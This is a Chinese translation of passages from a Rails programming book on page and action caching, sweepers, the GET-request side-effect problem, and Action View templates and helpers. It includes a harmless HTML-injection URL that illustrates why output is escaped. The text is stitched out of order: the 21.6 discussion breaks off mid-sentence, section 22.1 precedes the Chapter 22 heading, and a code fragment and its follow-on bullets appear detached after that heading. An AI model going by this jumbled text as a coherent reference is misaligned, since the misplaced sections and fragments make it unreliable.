诀窍在于将应用程序编码为当用于创建动态页面的数据发生变化时能够察觉，然后删除缓存版本。下一次有请求到达该 URL 时，缓存页面将根据新内容重新生成。

###### 显式使页面过期

删除缓存页面的底层方法是使用 `expire_page` 和 `expire_action` 方法。这些方法接受与 `url_for` 相同的参数，并使与生成的 URL 匹配的缓存页面过期。

例如，我们的内容控制器可能有一个允许我们创建文章的操作和另一个更新现有文章的操作。当我们创建文章时，公共页面上的文章列表将变得过时，因此我们调用 `expire_page`，传入显示公共页面的操作名称。当我们更新现有文章时，公共索引页面保持不变（至少在我们的应用程序中是这样），但该特定文章的任何缓存版本都应被删除。因为此缓存是使用 `caches_action` 创建的，我们需要使用 `expire_action` 使页面过期，传入操作名称和文章 ID。

```ruby
# app/controllers/content_controller.rb
def create_article
  article = Article.new(params[:article])
  if article.save
    expire_page :action => "public_content"
  else
    # ...
  end
end

def update_article
  article = Article.new(params[:article])
  if article.save
    expire_action :action => "premium_content", :id => article
  else
    # ...
  end
end
```

删除文章的方法需要做更多工作——它必须同时使公共索引页面失效并删除特定的文章页面。

```ruby
def delete_article
  Article.destroy(params[:id])
  expire_page :action => "public_content"
  expire_action :action => "premium_content", :id => params[:id]
end
```

###### 选择缓存存储策略

缓存和会话一样，具有多种存储选项。您可以将片段存储在文件中、数据库中、DRb 服务器中或 memcached 服务器中。但是，会话通常包含少量数据并且每个用户只需要一行，而片段缓存可以轻松产生大量数据，并且每个用户可能有多个片段。这使得数据库存储不太合适。

对于许多设置，最简单的方法是将缓存文件保存在文件系统上。但是，您不能将这些缓存文件本地保存在每个服务器上，因为使一台服务器上的缓存失效不会使其他服务器上的缓存失效。因此，您需要设置一个所有服务器都可以共享用于缓存的网络驱动器。

与会话配置一样，您可以在 `environment.rb` 中全局配置基于文件的缓存存储，或者在特定环境的文件中配置。

```ruby
ActionController::Base.fragment_cache_store =
    ActionController::Caching::Fragments::FileStore.new( "#{RAILS_ROOT}/cache")
```

此配置假设应用程序根目录中有一个名为 `cache` 的目录可用，并且 Web 服务器对其拥有完全的读写权限。该目录可以轻松地符号链接到服务器上代表网络驱动器的路径。

无论您选择哪种存储来缓存片段，都应该意识到网络瓶颈可能很快成为一个问题。如果您的网站严重依赖片段缓存，每个请求都需要从网络驱动器向特定服务器传输大量数据，然后才能再次发送给用户。为了在高流量网站上使用此功能，您确实需要在服务器之间建立高带宽内部网络，否则您将看到速度变慢。

缓存存储系统仅用于缓存操作和片段。全页缓存需要保存在 `public` 目录中的文件系统上。在这种情况下，如果您想在多个 Web 服务器上使用页面缓存，您将不得不采用网络驱动器方案。然后，您可以符号链接整个 `public` 目录（但这也会导致您的图像、样式表和 JavaScript 通过网络传输，这可能是个问题），或者仅链接页面缓存所需的各个目录。在后一种情况下，例如，您可以将 `public/products` 符号链接到您的网络驱动器，以保存产品控制器的页面缓存。


###### 隐式过期页面

`expire_xxx` 方法运行良好，但它们也将缓存功能与控制器中的代码紧密耦合。每次更改数据库时，都必须弄清楚这可能会影响哪些缓存页面。尽管这对于较小的应用程序来说很容易，但随着应用程序的增长，这会变得越来越困难。在一个控制器中所做的更改可能会影响在另一个控制器中缓存的页面。辅助方法中的业务逻辑（实际上不应该了解 HTML 页面）现在需要担心如何过期缓存页面。

幸运的是，Rails 清理器可以简化这种耦合。清理器是一种特殊的模型对象观察者。当模型中发生某些事情时，清理器会过期依赖于该模型数据的缓存页面。

你的应用程序可以根据需要拥有任意数量的清理器。通常，你会为每个控制器创建一个单独的清理器来管理缓存。将清理器代码放在 `app/models` 中。

```ruby
# app/sweepers/article_sweeper.rb
class ArticleSweeper < ActionController::Caching::Sweeper
  observe Article

  # 如果我们创建了一篇新文章，公共文章列表必须重新生成
  def after_create(article)
    expire_public_page
  end

  # 如果我们更新了一篇现有文章，该文章的缓存版本就过时了
  def after_update(article)
    expire_article_page(article.id)
  end

  # 删除页面意味着我们要更新公共列表并删除缓存的文章
  def after_destroy(article)
    expire_public_page
    expire_article_page(article.id)
  end

  private

  def expire_public_page
    expire_page(:controller => "content", :action => 'public_content')
  end

  def expire_article_page(article_id)
    expire_action(:controller => "content",
                  :action     => "premium_content",
                  :id         => article_id)
  end
end
```

清理器的流程有些复杂。

-   清理器被定义为一个或多个 Active Record 类上的观察者。在我们的示例中，它观察 Article 模型。（我们最初在第 380 页讨论了观察者。）清理器使用钩子方法（例如 `after_update`）在适当时过期缓存页面。
-   清理器还通过指令 `cache_sweeper` 在控制器中声明为活动状态。
-   如果传入的请求调用了清理器正在过滤的操作之一，清理器就会被激活。如果任何 Active Record 观察者方法触发，页面和操作过期方法就会被调用。如果 Active Record 观察者被调用，但当前操作未被选为缓存清理器，则清理器中的过期调用将被忽略。否则，过期操作就会发生。

```ruby
class ContentController < ApplicationController
  before_filter :verify_premium_user, :except => :public_content
  caches_page    :public_content
  caches_action  :premium_content

  cache_sweeper :article_sweeper,
                :only => [ :create_article,
                           :update_article,
                           :delete_article ]
  # ...
end
```

##### 缓存页面的基于时间的过期

考虑一个显示相当易变信息（如股票报价或新闻头条）的网站。如果我们采用每当底层信息发生变化就过期页面的缓存样式，我们将不断过期页面。缓存将很少被使用，我们将失去使用它的好处。

在这种情况下，你可能需要考虑切换到基于时间的缓存，其中你构建缓存页面的方式与之前完全相同，但在内容过时时不过期它们。

你运行一个单独的后台进程，定期进入缓存目录并删除缓存文件。你可以选择如何进行此删除——你可以简单地删除所有文件、删除创建于若干分钟之前的文件，或删除名称匹配某种模式的文件。这部分是特定于应用程序的。

当下次收到对这些页面之一的请求时，它将不会从缓存中获得满足，应用程序将处理它。在此过程中，它将自动重新填充缓存中的该特定页面，从而减轻后续获取此页面的负担。

你在哪里找到要删除的缓存文件？毫不奇怪，这是可配置的。页面缓存文件默认存储在应用程序的 public 目录中。它们将根据它们缓存的 URL 命名，并带有 `.html` 扩展名。例如，`content/show/1` 的页面缓存文件将位于 `app/public/content/show/1.html`。

这种命名方案并非巧合；它允许 Web 服务器自动找到缓存文件。不过，你可以使用以下方式覆盖默认值：

```ruby
config.action_controller.page_cache_directory = "dir/name"
config.action_controller.page_cache_extension = ".html"
```

操作缓存文件默认不存储在常规文件系统目录结构中，因此无法使用此技术过期。

### 21.6 GET 请求的问题

在撰写本书时，关于 Web 应用程序使用链接触发操作的方式存在激烈争论。

问题是这样的。几乎从 HTTP 被发明开始，人们就认识到 HTTP GET 和 HTTP POST 请求之间存在根本区别。蒂姆·伯纳斯-李在 1996 年就写过相关内容。¹⁵ 使用 GET 请求从服务器检索信息，使用 POST 请求请求服务器状态的更改。

问题在于，这条规则已被 Web 开发人员广泛忽视。每次你看到一个带有 *添加到购物车* 链接的应用程序时，你看到的就是一个违规行为，因为单击该链接会生成一个更改应用程序状态的 GET 请求（在本例中，它会将某些内容添加到购物车）。到目前为止，我们一直侥幸逃脱。

这在 2005 年春天发生了变化，当时 Google 发布了其 Google Web Accelerator (GWA)，这是一种客户端代码，可以加速最终用户的浏览。它部分通过预缓存页面来实现这一点。当用户阅读当前页面时，加速器软件会扫描其链接，并安排在后台读取和缓存相应的页面。

现在想象一下，你正在查看一个包含 *添加到购物车* 链接的在线商店。当你在栗色热裤和紫色背心之间做决定时，加速器正在忙于跟踪链接。跟踪的每个链接都会向你的购物车添加一个新商品。

问题一直存在。搜索引擎和其他蜘蛛不断地跟踪公共网页上的链接。然而，通常情况下，这些在应用程序中调用状态更改操作（例如我们的 *添加到购物车* 链接）的链接在用户开始某种事务之前不会被暴露，因此蜘蛛不会看到或跟踪它们。GWA 在客户端运行这一事实突然暴露了所有这些链接。

在理想的世界里，每个具有副作用的请求都应该是 POST，¹⁶ 而不是 GET。网页不会使用链接，而是在希望服务器执行某些主动操作时使用表单和按钮。然而，世界并不理想，并且有成千上万（数百万？）的页面在 GET 请求方面违反了规则。

Rails 中的默认 `link_to` 方法生成一个常规链接，单击该链接会创建一个 GET 请求。但这当然不是 Rails 特有的问题。许多大型且成功的网站也这样做。

这真的是个问题吗？一如既往，答案是“视情况而定”。如果你编写的应用程序具有危险链接（例如 *删除订单*、*解雇员工* 或 *发射导弹*），那么这些链接可能会被无意中跟踪，并且你的应用程序将尽职尽责地执行所请求的操作。

#### 修复 GET 问题

遵循一个简单的规则可以有效地消除与危险链接相关的风险。基本公理很简单：永远不要允许执行某些危险操作的直接 `<a href="...">` 链接在没有某种人为干预的情况下被跟踪。以下是一些在实践中实现这一点的技巧。

- *使用表单和按钮*，而不是超链接，来执行在服务器上更改状态的操作。表单使用 POST 请求提交，这意味着它们不会被跟踪链接的蜘蛛提交，并且如果你重新加载页面，浏览器会向你发出警告。

  在 Rails 中，这意味着使用 `button_to` 辅助方法指向危险操作。然而，你需要仔细设计你的网页。HTML 不允许嵌套表单，因此你不能在另一个表单中使用 `button_to`。

- *使用确认页面*。对于无法使用表单的情况，创建一个引用确认页面的链接。此确认应由表单的提交按钮触发；因此，破坏性操作不会自动触发。

有些人还使用以下技巧，希望它们能防止问题。它们*不起作用*。

- 不要认为你的操作是受保护的，仅仅因为你在链接上安装了 JavaScript 确认框。例如，Rails 允许你编写

¹⁵. <http://www.w3.org/DesignIssues/Axioms>

¹⁶. 或者更罕见的 PUT 或 DELETE 请求


### 22.1 模板

当你编写一个视图时，你就是在编写一个模板：一个将被展开以生成最终结果的东西。要理解这些模板如何工作，我们需要考察三个方面

-   模板的位置
-   模板运行的环境
-   模板包含的内容

#### 模板的位置

`render` 方法期望在全局 `template_root` 配置选项定义的目录下找到模板。默认情况下，它被设置为当前应用程序的 `app/views` 目录。在这个目录下，约定是为每个控制器的视图设置一个单独的子目录。例如，我们的 Depot 应用程序包含 `admin` 和 `store` 控制器。因此，我们在 `app/views/admin` 和 `app/views/store` 中有模板。每个目录通常包含以相应控制器中的动作命名的模板。

你也可以拥有不以动作命名的模板。这些模板可以从控制器中使用如下调用来渲染：

```
render(:action => 'fake_action_name')
render(:template => 'controller/name')
render(:file => 'dir/template')
```

最后一种方法允许你将模板存储在文件系统的任何位置。如果你想跨应用程序共享模板，这非常有用。

#### 模板环境

模板包含固定文本和代码的混合体。代码用于向模板添加动态内容。该代码在一个可以访问控制器设置的信息的环境中运行。

-   控制器的所有实例变量在模板中也可用。这是动作向模板传递数据的方式。
*   控制器对象的 flash、headers、logger、params、request、response 和 session 在视图中作为访问器方法可用。除了 flash，视图代码可能不应该直接使用这些，因为处理它们的责任应由控制器承担。然而，我们发现在调试时这很有用。例如，以下 rhtml 模板使用 debug 方法显示 session 的内容、参数的详细信息和当前响应。
*   当前控制器对象可通过名为 controller 的属性访问。这允许模板调用控制器中的任何公共方法（包括 ActionController 中的方法）。
*   模板基本目录的路径存储在 base_path 属性中。

```
<h4>Session</h4> <%= debug(session) %>
<h4>Params</h4> <%= debug(params) %>
<h4>Response</h4> <%= debug(response) %>
```

#### 模板包含的内容

开箱即用，Rails 支持三种类型的模板。

*   rxml 模板使用 Builder 库来构建 XML 响应。
*   rhtml 模板是 HTML 和嵌入式 Ruby 的混合体。它们通常用于生成 HTML 页面。
*   rjs 模板创建在浏览器中执行的 JavaScript，通常用于与 AJAX 化的网页交互。

接下来我们将简要讨论 Builder，然后看看 rhtml。我们将在第 23 章“Web，V2.0”（第 522 页）中讨论 rjs 模板。

##### Builder 模板

Builder 是一个独立的库，让你可以在代码中表达结构化文本（如 XML）。¹ 一个 Builder 模板（在具有 .rxml 扩展名的文件中）包含使用 Builder 库生成 XML 的 Ruby 代码。

这是一个简单的 Builder 模板，它以 XML 格式输出产品名称和价格列表。

```
xml.div(:class => "productlist") do

  xml.timestamp(Time.now)

  @products.each do |product|
    xml.product do
      xml.productname(product.title)
      xml.price(product.price, :currency => "USD")
    end
  end
end
```

使用适当的产品集合（从控制器传入），模板可能生成如下内容：

```
<div class="productlist">
  <timestamp>Sun Oct 01 09:13:04 EDT 2006</timestamp>
  <product>
    <productname>Pragmatic Programmer</productname>
    <price currency="USD">12.34</price>
  </product>
  <product>
    <productname>Rails Recipes</productname>
    <price currency="USD">23.45</price>
  </product>
</div>
```

注意 Builder 如何将方法名称转换为 XML 标签：当我说 xml.price 时，它创建了一个名为 <price> 的标签，其内容是第一个参数，其属性从后续的哈希设置。如果要使用的标签名称与现有方法名冲突，你需要使用 tag! 方法来生成标签。

```
xml.tag!("id", product.id)
```

Builder 可以生成几乎任何你需要的 XML：它支持命名空间、实体、处理指令，甚至 XML 注释。详情请参阅 Builder 文档。

1.  Builder 可在 RubyForge (http://builder.rubyforge.org/) 和 RubyGems 上获得。Rails 自带了 Builder 的副本，因此你无需下载任何东西即可开始使用。

##### RHTML 模板

最简单的 rhtml 模板就是一个常规的 HTML 文件。如果模板不包含任何动态内容，它将直接发送到用户的浏览器。以下是一个完全有效的 rhtml 模板。

```
<h1>Hello, Dave!</h1>
<p>
    How are you, today?
</p>
```

然而，只渲染静态模板的应用程序往往有点无聊。我们可以使用动态内容来增加趣味。

```
<h1>Hello, Dave!</h1>
<p>
    It's <%= Time.now %>
</p>
```

如果你是 JSP 程序员，你会认出这是一个内联表达式：任何在 <%= 和 %> 之间的代码都会被求值，结果使用 to_s 转换为字符串，然后该字符串被替换到生成的页面中。标签内的表达式可以是任意代码。

```
<h1>Hello, Dave!</h1>
<p>
    It's <%= require 'date'
        DAY_NAMES = %w{ Sunday Monday Tuesday Wednesday
                         Thursday Friday Saturday }
        today = Date.today
        DAY_NAMES[today.wday]
    %>
</p>
```

将大量业务逻辑放入模板通常被认为是一件*非常糟糕的事情*，如果你被抓住，你将冒着激怒编码警察的风险。我们将在第 472 页讨论 helpers 时看到更好的处理方式。

有时你需要在模板中放置不直接生成任何输出的代码。如果你省略打开标签中的等号，内容会被执行，但不会插入到模板中。我们可以将前面的示例写成：

```
<% require 'date'
    DAY_NAMES = %w{ Sunday Monday Tuesday Wednesday
                     Thursday Friday Saturday }
    today = Date.today
%>
<h1>Hello, Dave!</h1>
<p>
    It's <%= DAY_NAMES[today.wday] %>.
    Tomorrow is <%= DAY_NAMES[(today + 1).wday] %>.
</p>
```

## 第22章 Action View

我们已经了解了路由组件如何确定使用哪个控制器，以及控制器如何选择一个动作。我们还了解了控制器和动作如何共同决定向用户渲染什么。通常，渲染发生在动作结束时，通常涉及一个模板。这就是本章的内容。`ActionView` 模块封装了渲染模板所需的所有功能，最常见的是生成 HTML、XML 或 JavaScript 返回给用户。顾名思义，`ActionView` 是我们 MVC 三部曲中的视图部分。

link_to(:action => :delete, :confirm => "Are you sure?")
```

这将阻止用户通过单击链接意外造成损坏，但仅当他们在浏览器中启用了 JavaScript 时才有效。它也无法阻止蜘蛛和自动化工具盲目地跟随链接。

-   不要认为你的动作是安全的，如果它们只出现在你网站需要用户登录的部分。虽然这确实可以防止全局蜘蛛（例如搜索引擎使用的蜘蛛）访问它们，但它无法阻止客户端技术（例如 Google Web Accelerator）。

-   不要认为你的动作是安全的，如果你使用 robots.txt 文件来控制哪些页面被爬取。这无法保护你免受客户端技术的影响。

所有这些听起来可能相当悲观。实际情况并非那么糟糕。在设计网站时，只需遵循一个简单的规则，你就可以避免所有这些问题。


在JSP世界里，这被称为*脚本片段*。同样，许多人发现你在模板中添加代码时会斥责你。忽略他们——他们正沦为教条的牺牲品。在模板中放置代码并没有错。只要别放太多代码（尤其别在模板中放业务逻辑）就行。稍后我们将看到如何用辅助方法更好地完成前面的例子。

你可以将代码片段之间的HTML文本想象成每一行都是由Ruby程序编写的。`<%...%>`片段被添加到同一个程序中。HTML与你编写的显式代码交织在一起。因此，`<%`和`%>`之间的代码可以影响模板中其余部分的HTML输出。

例如，考虑这个模板

```
<% 3.times do %>
Ho!<br/>
<% end %>
```

在内部，模板代码将其转换为类似下面的内容。

```
3.times do
  concat("Ho!<br/>", binding)
end
```

`concat`方法将其第一个参数追加到生成的页面中。（`concat`的第二个参数告诉它评估变量的上下文。）结果？你将在浏览器中看到Ho!这个短语被写入了三次。

最后，你可能已经注意到本书中的示例代码，其中ERb块以`-%>`结尾。减号告诉ERb不要将紧跟其后的换行符包含在最终的HTML文件中。在下面的例子中，输出中的第1行和第2行之间将不会有空行。

```
The time
<% @time = Time.now -%>
is <%= @time %>
```

你可以通过在应用的配置中设置`erb_trim_mode`属性的值来修改默认行为。例如，如果你在`config`目录下的`environment.rb`中添加以下行

```
config.action_view.erb_trim_mode = ">"
```

所有`<%...%>`序列末尾的换行符都将被去除。

作为题外话，如果修剪模式包含百分号，你可以稍微不同地编写模板。除了将Ruby代码放在`<%..%>`中，你还可以在以单个百分号开头的行上编写Ruby。例如，如果你的`environment.rb`文件包含

```
config.action_view.erb_trim_mode = "%"
```

你可以编写类似这样的代码

```
% 5.downto(1) do |i|
  <%= i %>... <br/>
% end
```

有关修剪模式的更多可能值，请参阅ERb文档。

#### 转义替换值

HTML模板有一个关键的危险。当你使用`<%=...%>`插入一个值时，它会直接进入输出流。看下面这个例子。

```
The value of name is <%= params[:name] %>
```

在正常情况下，这将替换请求参数name的值。但是，如果我们的用户输入了以下URL怎么办？

```
http://x.y.com/myapp?name=Hello%20%3cb%3ethere%3c/b%3e
```

奇怪的序列%3cb%3ethere%3c/b%3e是HTML `<b>there</b>`的URL编码版本。我们的模板将替换这个，页面将显示单词there为粗体。

这看起来可能不是什么大事，但往好了说，它让你的页面容易被篡改。往坏了说，正如我们将在第26章*保护你的Rails应用程序*（第600页）中看到的那样，这是一个巨大的安全漏洞，使你的网站容易受到攻击和数据丢失。

幸运的是，解决方案很简单。始终转义任何你替换到模板中、且不打算作为HTML的文本。Rails提供了一个可以做到这一点的方法。它的全名是html_escape，但大多数人只称它为h。

```
The value of name is <%= h(params[:name]) %>
```

养成在输入`<%= `后立即输入h(的习惯。

如果你替换的文本包含你希望被解释的HTML，你不能使用h方法，因为HTML标签将被转义——如果你创建一个包含`<em>hello</em>`的字符串，然后使用h方法将其替换到模板中，用户将看到`<em>hello</em>`而不是*hello*。

sanitize方法提供了一些保护。它接受一个包含HTML的字符串并清理危险元素：`<form>`和`<script>`标签被转义，on=属性和以javascript:开头的链接被移除。

我们Depot应用程序中的产品描述是作为HTML呈现的（即，它们没有使用h方法进行转义）。这允许我们在其中嵌入格式信息。如果我们允许组织外的人员输入这些描述，谨慎的做法是使用sanitize方法来降低网站被成功攻击的风险。

### 22.2 使用辅助方法

早些时候我们说在模板中放置代码是可以的。现在我们要修改这个说法。在模板中放置*一些*代码是完全没问题的——这使它们具有动态性。然而，在模板中放置太多代码是一种糟糕的风格。

这主要有三个原因。首先，你在应用程序的视图层放入的代码越多，就越容易放松纪律，开始在模板代码中添加应用级功能。这绝对是不好的形式；你希望将应用程序的东西放在控制器和模型层，以便它们随处可用。当你为应用程序添加新的查看方式时，这将得到回报。

第二个原因是`rhtml`本质上是HTML。当你编辑它时，你就是在编辑一个HTML文件。如果你有幸让专业设计师创建你的布局，他们希望使用HTML。在其中放入一堆Ruby代码只会让工作变得困难。

最后一个原因是嵌入在视图中的代码很难测试，而分离到辅助模块中的代码可以作为独立单元进行隔离和测试。

Rails以辅助方法的形式提供了一个很好的折衷方案。*辅助方法*只是一个包含帮助视图的方法的模块。辅助方法以输出为中心。它们存在的目的是生成HTML（或XML，或JavaScript）——辅助方法扩展了模板的行为。

默认情况下，每个控制器都有自己的辅助模块。了解Rails会做出一些假设以帮助将辅助方法链接到控制器及其视图，这并不奇怪。如果一个控制器名为`BlogController`，它将自动在`app/helpers`目录中的`blog_helper.rb`文件中查找名为`BlogHelper`的辅助模块。你不必记住所有这些细节——`generate`控制器脚本会自动创建一个辅助模块的存根。

例如，我们商店控制器的视图可能会从实例变量`@page_title`设置生成页面的标题（它可能由控制器设置）。如果`@page_title`未设置，模板将使用文本“Pragmatic Store”。每个视图模板的顶部可能看起来像这样

```
<h3><%= @page_title || "Pragmatic Store" %></h3>
<!-- ... -->
```

我们希望消除模板之间的重复：如果商店的默认名称发生变化，我们不想编辑每个视图。因此，让我们将计算页面标题的代码移动到一个辅助方法中。由于我们在商店控制器中，我们编辑`app/helpers`中的`store_helper.rb`文件（如下一页所示）。

```
module StoreHelper
  def page_title
    @page_title || "Pragmatic Store"
  end
end
```

现在视图代码只需调用辅助方法。

```
<h3><%= page_title %></h3>
<!-- ... -->
```

（我们可能希望通过将整个标题的渲染移动到一个单独的部分模板中来消除更多的重复，该模板由所有控制器的视图共享，但我们在第22.9节*部分页面模板*（第510页）之前不讨论它们。）

#### 共享辅助方法

有时一个辅助方法非常好，你必须在所有控制器中共享它。也许你有一个漂亮的日期格式化辅助方法，希望在所有控制器调用的视图中使用。你有两个选择。

首先，你可以将辅助方法添加到`app/helpers`目录中的`application_helper.rb`文件。顾名思义，这个辅助方法对整个应用程序是全局的，因此其方法对所有视图都可用。

或者，你可以使用`helper`声明告诉控制器包含额外的辅助模块。例如，如果我们的日期格式化辅助方法在`app/helpers`中的`date_format_helper.rb`文件中，我们可以使用以下方式将其加载并混合到特定控制器的视图中

```
class ParticularController < ApplicationController

  helper :date_format

  # ...
end
```

你可以通过将其名称提供给`helper`声明来包含一个已加载的类作为辅助方法。

```
class ParticularController < ApplicationController

  helper DateFormat

  # ...
end
```

你可以使用`helper_method`将控制器方法添加到模板中。在执行此操作之前请三思——你冒着混合业务逻辑和表示逻辑的风险。有关详细信息，请参阅`helper_method`的文档。


### 22.3 用于格式化、链接和分页的辅助方法

Rails 内置了许多辅助方法，可供所有视图使用。本节我们将介绍其中的亮点，但你可能需要查阅 Action View 的 RDoc 文档了解具体细节——其中包含大量功能。

#### 格式化辅助方法

有一组辅助方法用于处理日期、数字和文本。

```
<%= distance_of_time_in_words(Time.now, Time.local(2005, 12, 25)) %>
    248 days

<%= distance_of_time_in_words(Time.now, Time.now + 33, false) %>
    1 minute

<%= distance_of_time_in_words(Time.now, Time.now + 33, true) %>
    half a minute

<%= time_ago_in_words(Time.local(2004, 12, 25)) %>
    116 days

<%= number_to_currency(123.45) %>
    $123.45

<%= number_to_currency(234.56, :unit => "CAN$", :precision => 0) %>
    CAN$235.

<%= number_to_human_size(123_456) %>
    120.6 KB

<%= number_to_percentage(66.66666) %>
    66.667%

<%= number_to_percentage(66.66666, :precision => 1) %>
    66.7%

<%= number_to_phone(2125551212) %>
    212-555-1212

<%= number_to_phone(2125551212, :area_code => true, :delimiter => " ") %>
    (212) 555 1212

<%= number_with_delimiter(12345678) %>
    12,345,678

<%= number_with_delimiter(12345678, "_") %>
    12_345_678

<%= number_with_precision(50.0/3) %>
    16.667
```

`debug` 方法使用 YAML 格式输出其参数，并对结果进行转义，以便在 HTML 页面中显示。在查看模型对象或请求参数的值时，这可能会有所帮助。

```
<%= debug(params) %>
```

```
--- !ruby/hash:HashWithIndifferentAccess
name: Dave
language: Ruby
action: objects
controller: test
```

另一组辅助方法用于处理文本。有用于截断字符串和突出显示字符串中单词的方法（例如可用于显示搜索结果）。

```
<%= simple_format(@trees) %>
```

格式化字符串，保留换行和段落分隔。你可以将乔伊斯·基尔默的诗作《树》的纯文本传给它，它就会添加 HTML 来进行如下格式化。

```
<p>I think that I shall never see
<br />A poem lovely as a tree.</p>

<p>A tree whose hungry mouth is prest
<br />Against the sweet earth's flowing breast;
</p>
```

```
<%= excerpt(@trees, "lovely", 8) %>
```

...A poem lovely as a tre...

```
<%= highlight(@trees, "tree") %>
```

I think that I shall never see
A poem lovely as a <strong class="highlight">tree</strong>.

A <strong class="highlight">tree</strong> whose hungry mouth is prest
Against the sweet earth's flowing breast;

```
<%= truncate(@trees, 20) %>
```

I think that I sh...

还有一个方法用于名词的单复数形式转换。

```
<%= pluralize(1, "person") %> but <%= pluralize(2, "person") %>
```

1 person but 2 people

如果你想实现那些花哨网站的效果，自动为 URL 和电子邮件地址创建超链接，也有辅助方法可以做到这一点。还有一个方法可以从文本中去除超链接。

在第 91 页，我们看到了 `cycle` 辅助方法如何每次调用时返回序列中的下一个值，并在必要时重复序列。这通常用于为表格或列表中的行创建交替的样式。

最后，如果你正在编写类似博客网站的东西，或者允许用户为你的商品添加评论，你可以为他们提供使用 Markdown (BlueCloth)<sup>2</sup> 或 Textile (RedCloth)<sup>3</sup> 格式创建文本的功能。这些是简单的格式化程序，它们接受带有非常简单、对人类友好的标记的文本，并将其转换为 HTML。如果你的系统上安装了相应的库，<sup>4</sup> 就可以使用 `markdown` 和 `textilize` 辅助方法将这些文本渲染到视图中。

##### 链接到其他页面和资源

`ActionView::Helpers::AssetTagHelper` 和 `ActionView::Helpers::UrlHelper` 模块包含许多方法，允许你引用当前模板外部的资源。其中最常用的是 `link_to`，它用于创建指向应用程序中另一个操作的超链接。

```
<%= link_to "Add Comment", :action => "add_comment" %>
```

`link_to` 的第一个参数是链接显示的文本。接下来是一个指定链接目标的哈希值。这使用了与控制器 `url_for` 方法相同的格式，我们在第 401 页讨论过。

第三个参数可用于在生成的链接上设置 HTML 属性。

```
<%= link_to "Delete", { :action => "delete", :id => @product},
              { :class => "dangerous" }
%>
```

这第三个参数还支持三个修改链接行为的附加选项。每个选项都要求浏览器启用 JavaScript。`:confirm` 选项接受一条简短的消息。如果存在，将生成 JavaScript 来显示该消息，并在链接被访问之前获取用户的确认。

```
<%= link_to "Delete", { :action => "delete", :id => @product},
              { :class => "dangerous",
                :confirm => "Are you sure?" }
%>
```

`:popup` 选项接受 `true` 值或一个包含两个元素的窗口创建选项数组（第一个元素是传递给 JavaScript `window.open` 方法的窗口名称；第二个元素是选项字符串）。请求的响应将显示在此弹出窗口中。

```
<%= link_to "Help", { :action => "help" },
          :popup => ['Help', 'width=200,height=150']
%>
```

`:method` 选项是一个变通方法——它允许你让链接对应用程序看起来像是由 POST、PUT 或 DELETE 方法创建的，而不是正常的 GET 方法。这是通过创建一个 JavaScript 代码块来实现的，当链接被点击时提交请求——如果浏览器禁用了 JavaScript，则会生成 GET 请求。

```
<%= link_to "Delete", { :controller => 'articles',
                       :id => @article },
                 :method => :delete
%>
```

`button_to` 方法的工作方式与 `link_to` 相同，但它生成一个位于独立表单中的按钮，而不是直接的超链接。正如我们在第 21.6 节 *GET 请求的问题*（第 463 页）中讨论的那样，这是链接到有副作用操作的首选方法。然而，这些按钮存在于它们自己的表单中，这带来了一些限制：它们不能内联显示，也不能出现在其他表单内部。

Rails 提供了条件链接方法，如果满足某个条件，则生成超链接，否则只返回链接文本。`link_to_if` 和 `link_to_unless` 接受一个条件参数，后跟 `link_to` 的常规参数。如果条件为 true（对于 `link_to_if`）或 false（对于 `link_to_unless`），将使用剩余参数创建常规链接。如果不是，则将名称作为纯文本添加（没有超链接）。

`link_to_unless_current` 辅助方法用于在侧边栏中创建菜单，其中当前页面名称显示为纯文本，而其他条目是超链接。

```
<ul>
<% %w{ create list edit save logout }.each do |action| -%>
  <li>
    <%= link_to_unless_current(action.capitalize, :action => action) %>
  </li>
<% end -%>
</ul>
```

与 `url_for` 一样，`link_to` 及其相关方法也支持绝对 URL。

```
<%= link_to("Help", "http://my.site/help/index.html") %>
```

`image_tag` 辅助方法可用于创建 `` 标签。图像尺寸可以使用单个 `:size` 参数（格式为 *宽度x高度*）指定，也可以通过分别给出宽度和高度作为单独的参数来指定。

```
<%= image_tag("/images/dave.png", :class => "bevel", :size => "80x120") %>
<%= image_tag("/images/andy.png", :class => "bevel",
             :width => "80", :height => "120") %>
```

如果你没有提供 `:alt` 选项，Rails 会使用图像文件名为你合成一个。

如果图像路径不以 `/` 字符开头，Rails 假定它位于 `/images` 目录下。如果它没有文件扩展名，Rails 目前假定为 `.png`，但这在 Rails 2.0 中将会是一个错误。

你可以通过组合 `link_to` 和 `image_tag` 来使图像成为链接。

```
<%= link_to(image_tag("delete.png", :size => "50x22"),
            { :controller => "admin",
              :action     => "delete",
              :id         => @product},
            { :confirm    => "Are you sure?" }) %>
```

`mail_to` 辅助方法创建一个 `mailto:` 超链接，点击时通常会加载客户端的电子邮件应用程序。它接受一个电子邮件地址、链接名称和一组 HTML 选项。在这些选项中，你还可以使用 `:bcc`、`:cc`、`:body` 和 `:subject` 来初始化相应的电子邮件字段。最后，神奇的选项 `:encode=>"javascript"` 使用客户端 JavaScript 来模糊生成的链接，使得爬虫更难从你的网站收集电子邮件地址。<sup>5</sup>

```
<%= mail_to("support@pragprog.com", "Contact Support",
            :subject => "Support question from #{user.name}",
            :encode  => "javascript") %>
```

作为一种较弱形式的混淆，你可以使用 `:replace_at` 和 `:replace_dot` 选项，用其他字符串替换显示名称中的“@”符号和点。这不太可能骗过电子邮件收集器。

`AssetTagHelper` 模块还包含一些辅助方法，使你可以轻松地从页面链接到样式表和 JavaScript 代码，以及创建自动发现的 RSS 或 Atom 订阅源链接。我们在 Depot 应用程序的布局中创建了一个样式表链接，我们在头部使用了 `stylesheet_link_tag`。

```
<%= stylesheet_link_tag "depot", :media => "all" %>
```

`javascript_include_tag` 方法接受一个 JavaScript 文件名列表（假定位于 `public/javascripts` 中），并创建将这些文件加载到页面中的 HTML。作为一种快捷方式，你可以传入参数 `:defaults`，在这种情况下，它会加载 `prototype.js`、`effects.js`、`dragdrop.js` 和 `controls.js` 文件，以及 `application.js`（如果存在）。使用后者可以将你自己的 JavaScript 添加到应用程序页面中。<sup>6</sup>

> <sup>5</sup> 但这也意味着如果用户在浏览器中禁用了 JavaScript，他们将看不到电子邮件链接。
> <sup>6</sup> 插件的编写者可以安排在应用程序指定 `:defaults` 时加载自己的 JavaScript 文件，但这超出了本书的范围。


RSS 或 Atom 链接是一个头字段，它指向我们应用中的一个 URL。当该 URL 被访问时，应用程序应返回相应的 RSS 或 Atom XML。

```html
<html>
  <head>
    <%= auto_discovery_link_tag(:rss, :action => 'rss_feed') %>
  </head>
  . . .
</html>
```

